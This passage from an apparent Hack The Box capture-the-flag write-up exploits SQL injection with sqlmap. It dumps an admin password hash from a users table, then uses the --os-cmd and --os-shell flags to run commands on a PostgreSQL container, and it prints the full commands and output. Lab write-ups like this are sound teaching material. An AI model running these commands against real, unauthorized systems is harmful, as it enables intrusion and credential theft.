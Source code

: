 `sqlmap -r login.request --force-ssl --batch -D public -T users --dump` will dump a single user, admin, and their password hash. `sqlmap` tries to crack it but fails, and Google doesn’t know it either.

```

[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+

```

The other two tables aren’t interesting.

### Commands via SQL

One technique that rarely works, but is always worth trying is the `--os-cmd` flag in `sqlmap`. From [the docs](https://github.com/sqlmapproject/sqlmap/wiki/Usage#run-arbitrary-operating-system-command), for PostgreSQL, it will upload a shared library to the system that will work with the database and run arbitrary commands on the system.

I’ll try `whoami` since it will work on either Linux or Windows, and it works:

```

oxdf@parrot$ sqlmap -r login.request --force-ssl --batch --os-cmd whoami
...[snip]...
[14:09:32] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Debian 10 (buster)
web application technology: PHP 7.3.14, Apache 2.4.38
back-end DBMS: PostgreSQL
[14:09:32] [INFO] fingerprinting the back-end DBMS operating system
[14:09:33] [INFO] the back-end DBMS operating system is Linux
[14:09:33] [INFO] testing if current user is DBA
[14:09:34] [INFO] retrieved: '1'
do you want to retrieve the command standard output? [Y/n/a] Y
[14:09:35] [INFO] retrieved: 'postgres'

```

The previous command identified the OS as Debian 10. Given this is a Windows host according to HTB, this must be in a Docker container. The `id` command returns as well:

```

[14:10:45] [INFO] retrieved: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)'

```

The `--os-shell` flag will drop into an interactive prompt to run more than one command as well:

```

oxdf@parrot$ sqlmap -r login.request --force-ssl --batch --os-shell
...[snip]...
[14:14:14] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell>

```
